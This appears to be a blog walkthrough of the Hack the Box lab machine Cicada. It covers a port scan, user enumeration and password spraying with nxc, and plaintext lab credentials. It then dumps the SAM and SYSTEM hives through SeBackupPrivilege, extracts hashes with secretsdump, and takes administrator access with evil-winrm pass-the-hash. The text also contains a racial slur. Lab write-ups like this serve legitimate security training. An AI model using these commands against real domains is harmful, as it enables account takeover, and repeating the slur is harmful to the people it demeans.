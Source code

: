 ```yaml
---
title: Cicada - Hack the Box
date: 2024-10-13 12:29:11 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Cicada.png
---
```

---
title: Cicada - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Cicada.png
---
---
title: 2024-10-12-Cicada - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Cicada.png
---
### Scan
```
Nmap scan report for 10.10.11.35
Host is up (0.12s latency).
Not shown: 65522 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-03 23:26:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
57094/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-10-03T23:26:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 373.81 seconds

```
### Enum
Dealing with Domain Controller!
```
Cicada$M6Corpb*@Lp#nZp!8
```


`nxc smb 10.10.11.35 -u 'null' -p '' --rid-brute` Elite way to brute users for dc

holy fuck nxc `nxc smb 10.10.11.35 -u /home/li0t/Desktop/HTB/Cicada/users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`

ldapdomaindump underrated goat? `ldapdomaindump --user cicada.htb\michael.wrightson --password 'Cicada$M6Corpb*@Lp#nZp!8' -m 10.10.11.35` make sure to do in specified dir because it outputs json and html files.

creds for david! ![Image](/assets/Screenshot 2024-10-04 at 11.48.52 AM.png) `aRt$Lp#7t*VQ!3`

Backup script in DEv

emily creds (a lot of lateral, no?) `emily.oscars` `Q!3@Lp#M6b*7t*Vt`

evilwinrm with emily creds. whoami /priv reveals SEbackuppriv!

I couldnt get og blackfield method to work, so found easier way 
```
reg save hklm\sam C:	emp\SAM
reg save hklm\system C:	emp\SYSTEM
```

then, make sure in correct dir, 
`download .\SAM` and `download .\SYSTEM`

copied correctly ![Image](/assets/Screenshot 2024-10-04 at 12.24.12 PM.png) 

get NTLM hashes with `python3 secretsdump.py -system SYSTEM -sam SAM LOCAL`. make sure to copy correct secrets dump to dir

![Image](/assets/Screenshot 2024-10-04 at 12.27.28 PM.png)

now pass that hash nigga `evil-winrm -i 10.10.11.35 -u "administrator" -H '2b87e7c93a3e8a0ea4a581937016f341'`

boom ![Image](/assets/Screenshot 2024-10-04 at 12.28.03 PM.png)
